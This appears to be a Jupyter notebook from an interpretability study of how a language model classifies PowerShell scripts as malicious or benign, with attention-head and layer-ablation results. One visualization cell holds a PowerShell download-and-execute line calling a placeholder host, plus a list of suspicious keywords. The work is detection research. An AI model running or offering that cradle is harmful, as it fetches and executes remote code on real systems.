# 01. Circuit Discovery

        This notebook demonstrates the **discovery phase** of the project.

        In mechanistic interpretability terms, this phase asks:
        - Where in the model does the malicious-vs-benign decision start to appear?
        - Which attention heads repeatedly focus on suspicious PowerShell indicators?
        - Which later layers look like they carry the decision toward the final `BLOCK` or `ALLOW` output?

        In plain language, the question is:
        - What parts of the model seem to notice risky code patterns early?
        - What parts of the model seem to turn those early clues into a final judgment later?

        This notebook is **CPU-friendly by default**. It reads the artifact files produced by the main analysis pipeline and uses plots to explain the methodology and the results.


In [1]:
from pathlib import Path
import math
import textwrap

import matplotlib.pyplot as plt
import pandas as pd
import seaborn as sns

plt.style.use("ggplot")
sns.set_context("talk")
pd.set_option("display.max_colwidth", 120)
pd.set_option("display.width", 140)


def find_project_root() -> Path:
    candidates = [Path.cwd()] + list(Path.cwd().parents)
    for candidate in candidates:
        if (candidate / "artifacts").exists() and (candidate / "scaled_validation.py").exists():
            return candidate
        if (candidate / "mech-interp-circuit" / "artifacts").exists():
            return candidate / "mech-interp-circuit"
    raise FileNotFoundError("Could not find mech-interp-circuit project root from the current working directory.")


PROJECT_ROOT = find_project_root()
ARTIFACTS = PROJECT_ROOT / "artifacts"
print("Project root:", PROJECT_ROOT)
print("Artifacts dir:", ARTIFACTS)


def read_csv(name: str) -> pd.DataFrame:
    path = ARTIFACTS / name
    if not path.exists():
        raise FileNotFoundError(path)
    return pd.read_csv(path)


def show_barh(df, label_col, value_col, *, title, xlabel, color="#2B6CB0", sort=True):
    plot_df = df.copy()
    if sort:
        plot_df = plot_df.sort_values(value_col, ascending=True)
    fig, ax = plt.subplots(figsize=(8, max(3, 0.45 * len(plot_df))))
    ax.barh(plot_df[label_col], plot_df[value_col], color=color)
    ax.set_title(title)
    ax.set_xlabel(xlabel)
    plt.tight_layout()
    return fig, ax


Project root: /home/ryan/mech-interp-circuit-validation/mech-interp-circuit
Artifacts dir: /home/ryan/mech-interp-circuit-validation/mech-interp-circuit/artifacts


## Step 1: Load the discovery artifacts

        We use two main artifact families here:
        - an **attention recurrence summary** that ranks heads by how often they focus on suspicious indicator tokens
        - a **full-model layer ablation summary** that shows which attention and MLP blocks matter most when they are removed

        Together, these tell a coherent story:
        - early attention heads do pattern detection
        - later layers do decision consolidation


In [2]:
attention_summary = read_csv("circuit_val_batch_attention_l4_n18_h100_summary.csv")
layer_ablation = read_csv("circuit_val_layer_ablation_full_h100_summary.csv")

attention_summary.head(10)


,layer,head,pair_count,mean_attention_delta,max_attention_delta
0,0,9,13,0.007934,0.035668
1,0,11,10,0.005874,0.011521
2,0,27,7,0.005388,0.008209
3,0,23,7,0.004522,0.008492
4,0,8,7,0.002594,0.006009
5,0,25,5,0.009086,0.009149
6,0,15,5,0.001355,0.007999
7,3,1,3,0.001627,0.001876
8,1,2,3,0.000951,0.000968
9,1,9,3,0.000823,0.001000


## Step 2: Identify the early detector heads

        The chart below ranks the most recurrent heads in the short overlap-controlled cohort.

        Technical interpretation:
        - a larger `mean_attention_delta` means the head attends more strongly to suspicious indicator positions than to matched random control positions

        Non-jargon interpretation:
        - these are the heads that most consistently "look at the suspicious parts" of the script




,head_label,pair_count,mean_attention_delta,max_attention_delta
0,L0H9,13,0.007934,0.035668
1,L0H11,10,0.005874,0.011521
2,L0H27,7,0.005388,0.008209
3,L0H23,7,0.004522,0.008492
4,L0H8,7,0.002594,0.006009
5,L0H25,5,0.009086,0.009149
6,L0H15,5,0.001355,0.007999
7,L3H1,3,0.001627,0.001876
8,L1H2,3,0.000951,0.000968
9,L1H9,3,0.000823,0.001000


In [3]:
top_heads = attention_summary.head(10).copy()
top_heads["head_label"] = top_heads.apply(lambda row: f"L{int(row['layer'])}H{int(row['head'])}", axis=1)
show_barh(
    top_heads,
    "head_label",
    "mean_attention_delta",
    title="Top Recurrent Heads by Attention to Suspicious Indicators",
    xlabel="Mean attention delta",
    color="#C05621",
    sort=True,
)
plt.show()

top_heads[["head_label", "pair_count", "mean_attention_delta", "max_attention_delta"]]


## Step 2b: A simple `circuitsvis` illustration

        The next cell is a **teaching visualization**, not a direct model cache readout.
        It highlights suspicious surface tokens in a toy PowerShell example so a reader can see the kind of evidence the early detector heads are picking up.

        Why include this?
        - It gives a non-jargon visual intuition for "indicator-focused attention"
        - It uses the same sort of suspicious strings that appear throughout the real dataset


In [4]:
from circuitsvis.tokens import colored_tokens
from IPython.display import display

demo_script = "IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"
demo_tokens = demo_script.split()
suspicious_terms = ["IEX", "Net.WebClient", "DownloadString"]
demo_values = [
    1.0 if any(term in token for term in suspicious_terms) else 0.0
    for token in demo_tokens
]

display(colored_tokens(tokens=demo_tokens, values=demo_values))


## Step 3: Localize the later decision stage

        Head-level attention is only part of the story. We also want to know where the model becomes **causally fragile**:
        if we remove a whole layer component, how much does the malicious-vs-benign logit move?

        We split the ablation results into:
        - **attention components**: token-to-token communication
        - **MLP components**: feedforward transformations inside each block




,layer,component,pair_count,mean_delta,max_delta,min_delta,flip_rate,mean_base_logit_diff
32,6,mlp,18,-3.587674,-0.234375,-8.109375,0.388889,3.924479
33,13,mlp,18,-3.518663,-0.921875,-5.609375,0.611111,3.924479
0,13,attn,18,-3.453125,-0.546875,-5.359375,0.500000,3.924479
34,10,mlp,18,-3.234375,-0.593750,-8.109375,0.444444,3.924479
1,11,attn,18,-3.006076,1.203125,-6.828125,0.333333,3.924479
2,12,attn,18,-2.037326,0.656250,-5.656250,0.111111,3.924479
3,9,attn,18,-1.880208,2.593750,-5.703125,0.111111,3.924479
4,17,attn,18,-1.773438,0.015625,-5.062500,0.055556,3.924479
5,24,attn,18,-1.675347,-0.937500,-2.593750,0.277778,3.924479
35,24,mlp,18,-1.549913,-0.359375,-2.726562,0.277778,3.924479


In [5]:
ablation_plot = layer_ablation.copy()
ablation_plot["signed_effect"] = -ablation_plot["mean_delta"]

fig, axes = plt.subplots(1, 2, figsize=(13, 5), sharey=True)
for ax, component, color in zip(axes, ["attn", "mlp"], ["#2F855A", "#805AD5"]):
    subset = ablation_plot[ablation_plot["component"] == component].sort_values("signed_effect", ascending=False).head(12)
    ax.bar(subset["layer"].astype(str), subset["signed_effect"], color=color)
    ax.set_title(f"Top {component.upper()} Layers by Ablation Effect")
    ax.set_xlabel("Layer")
    ax.set_ylabel("- mean_delta (larger = more important)")
plt.tight_layout()
plt.show()

layer_ablation.sort_values("mean_delta").head(12)


## Step 4: Interpret the discovery phase

        The discovery phase supports a two-stage circuit hypothesis:

        1. **Early detection**
           Heads in `Layer 0`, especially `L0H11` and `L0H9`, repeatedly focus on suspicious PowerShell indicators such as `IEX`, `DownloadString`, `Invoke-WebRequest`, and `-EncodedCommand`.

        2. **Late decision consolidation**
           A later band, especially `Layer 12-13` attention and a broader MLP band, appears to carry and refine the final malicious-vs-benign decision.

        This does **not** yet prove causality by itself. It tells us where to intervene next. That is the purpose of the validation notebook.


## Optional: Lightweight recomputation notes

        If you want to rerun small parts of the discovery workflow locally, use `scaled_validation.py`.
        The heavier model-intervention runs are better on GPU, but the artifact-reading workflow in this notebook is designed to work comfortably on CPU.


In [6]:
# Example only. Uncomment to run a small discovery command locally.
#
# !python ../scaled_validation.py batch-discover-heads \
#     --manifest ../artifacts/circuit_val_pair_manifest_t3000_valid_causal18_short.csv \
#     --device cpu \
#     --torch-dtype float32 \
#     --num-pairs 2 \
#     --first-n-layers 4 \
#     --output-prefix ../artifacts/demo_discovery_cpu
